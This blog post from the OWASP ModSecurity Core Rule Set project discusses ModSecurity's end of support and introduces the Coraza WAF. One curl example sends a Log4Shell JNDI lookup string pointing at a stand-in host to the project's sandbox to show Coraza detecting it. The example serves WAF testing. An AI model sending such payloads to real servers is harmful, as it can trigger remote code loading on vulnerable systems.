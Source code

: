 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-22T13:23:02+01:00'
title: Talking about ModSecurity and the new Coraza WAF
url: /2021/12/22/talking-about-modsecurity-and-the-new-coraza-waf/
---
```



It's time to talk about the ModSecurity engine and to introduce you to Coraza, a new contender on the WAF front. Any rule set is nothing without a WAF engine to run it, so even if our project is focused on the rules, we need to look at the underlying engine(s) from time to time.

On August 26, 2021, Trustwave, the owner of ModSecurity, announced the end of Support for ModSecurity for 2024 in a [blog post](https://www.trustwave.com/en-us/resources/security-resources/software-updates/end-of-sale-and-trustwave-support-for-modsecurity-web-application-firewall/). The blog also states that Trustwave plans to “let the open-source community continue the project.”

During autumn, OWASP, our mother organization, reached out to Trustwave and offered to assume stewardship of the project and attract sponsors while honoring Trustwave’s existing commitments. Sadly, OWASP and Trustwave were not yet able to find a common path before the end of Trustwave’s end of life support in 2024. So Trustwave is winding down their commitment and we need to move on.

As the provider of the OWASP ModSecurity Core Rule Set, we are the biggest users of ModSecurity, but also one of the biggest experts on ModSecurity. Our CRS co-leader Dr. Christian Folini is the author of the 2nd edition of the quasi-official ModSecurity Handbook, and our project brings together a unique expertise of ModSecurity in very diverse setups. We have been examining the development of ModSecurity ever since it was taken over by Trustwave, we have seen lead developers join and leave the company, we have raised dozens of issues and we contributed with several pull requests.

Without going into too much detail, we think it is fair to say that ModSecurity failed to attract a community of active developers. CRS has grown from 3 to 12 active developers since it separated from Trustwave in 2016. Meanwhile, ModSecurity has not been able to keep up with the necessary resources to accommodate the growing CRS project and its users.

#### ModSecurity: a problem with two code bases

One problem is the ModSecurity code base. The traditional base is ModSecurity 2, a venerable Apache module, originally developed by Ivan Ristić. However ModSecurity 2 is heavily linked to Apache internals, which makes it hard to port it and makes it sensible to re-factor. There is the successor libModSecurity 3, a standalone engine built from scratch in C++ with a connector module to integrate it into NGINX. ModSecurity 3 was released as stable and production-ready in December 2017.

It's been four years, and CRS still uses ModSecurity 2 as its reference implementation. The main reason is ModSecurity 3 fails to pass all tests in our test suite. Trustwave dubbed ModSecurity 3 as a re-implementation with an equal feature set, which has not happened yet. Recently, we sent Trustwave a list a dozen implementation gaps and differences that break CRS rules and potentially open up an application to attacks.

But this is not the only problem. NGINX is also the only platform where a publicly available ModSecurity 3 connector module exists. So you can not run ModSecurity 3 on the traditional Apache and also not on the new hot cloud stuff. And the performance of ModSecurity 3 is much worse than the throughput of ModSecurity 2 on Apache (Yes, you heard this right: Once ModSecurity comes into play, Apache is way faster than NGINX).

So, we have a very old code base that is bound to Apache, and a newer codebase that is incomplete, less performant, and only runs on NGINX.

CRS has pondered the problem, but we came to the conclusion that we will rather use our knowledge and resources to write rules than working on an engine. That’s said, we will strive to become engine-neutral. (Which does not mean we are not supportive. The last few security problems in ModSecurity have all been discovered by CRS developers and shared with the ModSecurity developers before publication. And we have quite a few pull requests open on the ModSecurity GitHub on top.)

The only viable option for a ModSecurity fork would be a company or organization with deep pockets and the resources to clean up the codebases, closing the gaps and then maybe a vision of how to move forward. We expect about 4,000 hours of investment for both code bases.

So in our opinion, the situation looks rather bleak for ModSecurity and for those integrators who have invested in ModSecurity. We're facing a similar situation apparently. But we also think there is reason for hope. Let us explain!

First, ModSecurity’s SecLang engine is not overly important. There are already several commercial reimplementations of ModSecurity, and there is nothing preventing an open source alternative.

And second, the intelligence is in the rule set, not in the engine. Mike Shinn, CEO of Atomicorp, an old school vendor of ModSecurity rules, has put it this way recently: "The real magic of ModSecurity is always in the rules anyways." As an open source rules provider, we could not agree more.

So all we really need is an open source alternative to ModSecurity. And such a very interesting alternative has arrived now: Entering the [Coraza WAF](https://coraza.io).

#### The beauty of the new Coraza WAF

Coraza is an implementation of a SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the open source [Caddy web server](https://caddyserver.com/), but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

{{< figure src="images/2021/12/coraza-logo-1024x253.png" caption="The new Coraza WAF with its pet \"Sancho\" on the right." >}}
To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our [earlier Log4J blog post](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).

```sh
curl -H "x-crs-paranoia-level: 4" \
  -H "x-format-output: txt-matched-rules" \
  -H "x-backend: coraza" \
  -H "x-crs-version: 3.4.0-dev-log4j" \
  -H ‘***User-Agent: ${jndi:ldap://evil.com}***’ \
  https://sandbox.coreruleset.org  
> 1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228  
> 932130 PL1 Remote Command Execution: Unix Shell Expression Found  
> 949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)  
> 980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0
```

#### **Conclusion**

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity 3 productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

- <https://coraza.io>
- <https://coraza.io/docs/tutorials/introduction/>
- <https://github.com/jptosso/coraza-waf>

We will keep you updated on new developments in this regard.  
  
*Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project*  
  
P.S. Juan Pablo Tosso asked CRS to come up with a name for his Coraza mascot. We settled on Sancho and he thought it was a great fit.
